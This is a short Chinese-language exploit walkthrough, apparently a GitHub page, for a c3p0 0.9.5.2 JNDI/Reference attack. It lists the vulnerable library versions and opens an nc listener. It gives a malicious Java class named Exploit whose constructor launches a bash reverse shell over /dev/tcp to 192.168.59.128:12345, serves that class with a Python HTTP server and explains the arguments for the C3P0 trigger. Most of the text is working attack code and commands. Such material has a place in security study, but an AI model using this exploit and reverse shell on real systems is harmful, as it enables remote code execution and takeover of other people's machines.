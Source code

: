 * 配置环境

  * `com.mchange`:`c3p0:0.9.5.2`
  * `com.mchange`:`mchange-commons-java:0.2.11`
  * jdk1.8(非必须)

* 在12345端口打开监听，等待反弹shell连接，该连接用于获取远程shell

  ```shell
  nc -l 12345
  ```
  
* 准备被靶机通过Reference获取的恶意类

  ```java
  public class Exploit {
      public Exploit(){
          try {
              Runtime r = Runtime.getRuntime();
              Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.59.128/12345 0>&1"});
          } catch (Exception e) {
              System.out.println(e);
          }
      }
  }
  ```

* 将该类编译后放到任意目录，然后在该目录中启动一个HTTP服务等待靶机连接，该连接用于将恶意类返回给靶机

  ```
  python -m SimpleHTTPServer 9999
  ```

* 在IDEA中运行C3P0.java，配置Program 参数为`http://ip:port/:classname`

  * ip、port为用于返回恶意类的地址
  * classname为返回的恶意类的类名
  * 将参数在输入给C3P0之后，会以最后一个`:`拆分为两个参数
    * url：`http://ip:port/`
    * classname:`classname`
